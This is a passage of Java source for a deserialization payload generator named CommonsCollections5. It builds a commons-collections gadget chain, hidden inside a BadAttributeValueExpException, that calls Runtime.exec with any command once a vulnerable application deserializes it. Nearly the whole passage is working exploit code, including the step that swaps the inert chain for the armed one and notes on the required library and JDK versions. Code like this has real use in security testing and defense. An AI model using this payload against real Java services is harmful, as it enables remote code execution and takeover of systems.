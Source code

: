 ```java=
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()

	Requires:
		commons-collections
 */
/*
This only works in JDK 8u76 and WITHOUT a security manager

https://github.com/JetBrains/jdk8u_jdk/commit/af2361ee2878302012214299036b3a8b4ed36974#diff-f89b1641c408b60efe29ee513b3d22ffR70
 */
@SuppressWarnings({"rawtypes", "unchecked"})
@PayloadTest ( precondition = "isApplicableJavaVersion")
@Dependencies({"commons-collections:commons-collections:3.1"})
@Authors({ Authors.MATTHIASKAISER, Authors.JASINNER })
public class CommonsCollections5 extends PayloadRunner implements ObjectPayload<BadAttributeValueExpException> {

	public BadAttributeValueExpException getObject(final String command) throws Exception {
		final String[] execArgs = new String[] { command };
		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
		        new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

		BadAttributeValueExpException val = new BadAttributeValueExpException(null);
		Field valfield = val.getClass().getDeclaredField("val");
        Reflections.setAccessible(valfield);
		valfield.set(val, entry);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return val;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections5.class, args);
```